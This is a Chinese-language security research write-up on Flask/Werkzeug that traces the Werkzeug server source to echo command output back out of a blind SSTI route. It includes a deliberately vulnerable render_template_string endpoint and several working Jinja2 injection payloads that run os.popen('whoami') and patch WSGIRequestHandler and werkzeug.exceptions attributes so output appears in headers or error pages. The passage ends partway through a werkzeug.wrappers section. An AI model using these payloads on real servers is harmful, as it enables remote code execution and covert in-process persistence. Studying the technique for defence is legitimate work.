# Werkzeug应用内存马详细深入调试研究-先知社区

> **来源**: https://xz.aliyun.com/news/16152  
> **文章ID**: 16152

---

## Werkzeug应用无回显详细深入调试研究

上一篇我们深入调试分析了 Pyramid 应用wsgiref的内存马无回显利用，这篇我们是分析另一个web应用 Werkzeug  
Werkzeug 是一个用于 Web 开发的强大工具包，主要用于处理 WSGI 请求和响应。它提供了许多实用的功能，使得开发 Web 应用程序变得更加容易和高效。Werkzeug 是 Flask 框架的基础之一，但它也可以独立使用。

```
from flask import Flask, request,render_template, render_template_string  
app = Flask(__name__)  

@app.route('/', methods=["POST"])  
def template():  
        template = request.form.get("code")  
        result=render_template_string(template)  
        print(result)  
        if result !=None:  
            return "OK"  
        else:  
            return "error"  

if __name__ == '__main__':  
    app.run(debug=False, host='0.0.0.0', port=8000)

```

想将回显带出到http响应中就可以考虑改变response包中对应位置属性的值



调试app.run()先看一下run函数的源代码

```
def run:
        if os.environ.get("FLASK_RUN_FROM_CLI") == "true":
            if not is_running_from_reloader():
                click.secho(
                    " * Ignoring a call to 'app.run()' that would block"
                    " the current 'flask' CLI command.\n"
                    "   Only call 'app.run()' in an 'if __name__ =="
                    ' "__main__"\' guard.',
                    fg="red",
                )

            return

        if get_load_dotenv(load_dotenv):
            cli.load_dotenv()

            # if set, env var overrides existing value
            if "FLASK_DEBUG" in os.environ:
                self.debug = get_debug_flag()

        # debug passed to method overrides all other sources
        if debug is not None:
            self.debug = bool(debug)

        server_name = self.config.get("SERVER_NAME")
        sn_host = sn_port = None

        if server_name:
            sn_host, _, sn_port = server_name.partition(":")

        if not host:
            if sn_host:
                host = sn_host
            else:
                host = "127.0.0.1"

        if port or port == 0:
            port = int(port)
        elif sn_port:
            port = int(sn_port)
        else:
            port = 5000

        options.setdefault("use_reloader", self.debug)
        options.setdefault("use_debugger", self.debug)
        options.setdefault("threaded", True)

        cli.show_server_banner(self.debug, self.name)

        from werkzeug.serving import run_simple

        try:
            run_simple(t.cast(str, host), port, self, **options)
        finally:
            # reset the first request information if the development server
            # reset normally.  This makes it possible to restart the server
            # without reloader and that stuff from an interactive shell.
            self._got_first_request = False

```

通过调试跟踪到**create\_jinja\_environment**函数，作用创建jinjia环境全局变量：就有我们SSTI熟悉利用的`url_for`，`get_flashed_messages`，`config`，`request`，`sessoin`，`g`

```
rv.globals.update(  
    url_for=self.url_for,  
    get_flashed_messages=get_flashed_messages,  
    config=self.config,  
    # request, session and g are normally added with the  
    # context processor for efficiency reasons but for imported    # templates we also want the proxies in there.    request=request,  
    session=session,  
    g=g,  
)  
rv.policies["json.dumps_function"] = self.json.dumps
return rv

```

之后是设置运行时的配置

```
options.setdefault("use_reloader", self.debug)  
options.setdefault("use_debugger", self.debug)  
options.setdefault("threaded", True)

```

* `use_reloader` 和 `use_debugger` 的值通常取决于应用的调试模式（`self.debug`）。
* `threaded` 默认为 `True`，意味着 Flask 会启用多线程处理请求。

紧接着使用了 `werkzeug.serving.run_simple` 函数来启动一个简单的 Web 服务器

```
from werkzeug.serving import run_simple  

try:  
    run_simple(t.cast(str, host), port, self, **options)
     ...

```

## WSGIRequestHandler篡改

跟踪进去发现调用了make\_server



make\_server用于根据传入的参数（如 `threaded` 和 `processes`）创建一个合适的 WSGI 服务器实例。由之前分析可以看到**app.run默认的的threaded为true**所以创建`ThreadedWSGIServer`



继续跟踪发现创建WSGI服务时的`WSGIRequestHandler` 是一个默认的请求处理器

检查 `handler` 是否具有 `protocol_version` 属性（即请求处理器是否指定了 **HTTP 协议版本**）。如果没有指定，则自动将 `protocol_version` 设置为 `HTTP/1.1`



看到这里我们便想可不可以改变协议值来回显？不急我们跟进**WSGIRequestHandler**细看一番

发现header段值都是通过sead\_header来设置的，那么我们查找调用这个方法的位置就可以



### HTTP协议头回显

首先我们看一下handler这个类， protocol\_version时他的一个属性

```
werkzeug.serving.WSGIRequestHandler.protocol_version

```



接下来就需要获取werkzeug这个模块

> sys.modules是一个全局字典，该字典是python启动后就加载在内存中。每当程序员导入新的模块，sys.modules都将记录这些模块。字典sys.modules对于加载模块起到了缓冲的作用。当某个模块第一次导入，字典sys.modules将自动记录该模块。当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度。  
> >

比如我们调试过程也可以看到**sys的**main**模块中就可以拿到app模块**



也就是SSTI传参可以这样得到

```
{{g.get["__globals__"].sys.modules.werkzeug.serving.WSGIRequestHandler}}

```

接下来就可以设置protocol\_version属性回显

```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.serving.WSGIRequestHandler,"protocol_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```

测试成功回显在HTTP协议头



### Server字段回显

我们调试跟踪找到send\_response函数，里面是对Server字段值的设置



跟踪进去发现是server\_version + self.sys\_version

```
def version_string(self):  
    """Return the server software version string."""  
    return self.server_version + ' ' + self.sys_version

```

跟踪找到两个都是BaseHTTPRequestHandler的属性



发包调试发现其实调用的是子类WSGIRequestHandler的server\_version方法



需要注意的是：

* `@property` 是 Python 中的一个内置装饰器，用来将类的方法转换为只读属性。也就是说，这个方法可以像访问普通属性一样被调用，而不需要显式调用方法（不加括号）。
* 例如，`server_version` 在外部可以通过 `server.server_version` 进行访问

SSTI设置server\_version和sys\_version的值

```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.serving.WSGIRequestHandler,"server_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.serving.WSGIRequestHandler,"sys_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```

成功外带到Server头



```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.serving.ThreadedWSGIServer,"sys_version",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```

## werkzeug.exceptions篡改

**`werkzeug.exceptions`**

* 提供了常见 HTTP 错误的封装。
* 主要功能：
  + 各种 HTTP 状态码对应的异常类，例如 `NotFound`、`BadRequest`。
  + 支持通过异常直接触发 HTTP 响应。
* 典型用途：处理错误并返回适当的 HTTP 响应。

我们想找到一些错误页面固定值的比如500状态码：



如果要篡改这些我们来到werkzeug.exceptions，发现直接就是写好的值，我们获取到这个类`werkzeug.exceptions.InternalServerError`就能篡改属性



我们先改变description的值然后触发500观察页面发现成功回显

```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.exceptions.InternalServerError,"description",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```



同理还可以改变405的内容



```
{{lipsum.__globals__.__builtins__.setattr(g.get["__globals__"].sys.modules.werkzeug.exceptions.MethodNotAllowed,"description",lipsum.__globals__.__builtins__.__import__('os').popen('whoami').read())}}

```



## werkzeug.wrappers篡改

**`werkzeug.wrappers`**

* 提供了对 HTTP 请求和响应的封装。
* 主要类：
  + `Request`：用于封装 WSGI 请求，支持处理表单数据、文件上传等。
  + `Response`：用于封装 WSGI 响应，支持设置响应头、内容类型等。
* 典型用途：处理 HTTP 请求和构建 HTTP 响应。  
  在初始化打点调试跟踪，发现status赋值从default\_status来，而他的值是默认的200

